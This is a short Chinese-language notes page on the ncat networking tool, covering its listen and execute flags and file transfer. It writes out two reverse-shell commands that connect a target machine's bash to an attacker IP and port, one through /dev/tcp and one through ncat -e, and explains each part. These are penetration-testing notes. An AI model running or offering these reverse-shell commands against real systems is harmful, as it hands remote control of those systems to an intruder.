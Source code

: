 ```yaml
---
title: "Ncat Note"
date: 2022-03-19T13:18:56+08:00
draft: false
weight: 9
categories: ["安全工具"]
tags: ["安全工具", "Ncat"]
author: ["lavaicer"]
# author: ["Me", "You"] # multiple authors
---
```

## -l

使用监听模式，监控传入的信息 本机
`ncat -l 1234`

连接远程监控端口进行监控 目标机
`ncat <本机 ip> 1234`

## -e

将传入的信息以命令执行
`ncat -e -l /bin/bash <ip> 1234`

## -k ； -v

持久监听，客户端连接断掉，服务端依然保持运行
显示指令执行过程细节

## 内网弹 shell

> -w:设置等待连线的时间秒数

## bash 弹 shell

---

```markdown
bash -i >& /dev/tcp/攻击机ip/攻击机端口 0>&1
```

---

这条命令的作用等同于之前的 `ncat -w 10 -e /bin/bash 10.211.55.4 2333`

|           命令           |                           参数解释                           |
| :-----------------------: | :----------------------------------------------------------: |
|          bash -i          |                     产生一个bash交互环境                     |
|            >&            |      将联合符号前面的内容与后面结合然后一起重定向给后者      |
| /dev/tcp/10.211.55.4/2333 |      让目标主机与主机10.211.55.4的2333端口简历一个连接      |
|           0>&1           | 将标准的输入与标准输出内容相结合，然后重定向给前面的标准输出 |

## 文件传输

### 上传

收

`ncat -l 1234 > re.txt`

发

`ncat <ip> 1234 < send.txt`

### 下载

`ncat -l 1234 < send.txt`

`ncat <ip> 1234 > re.txt`
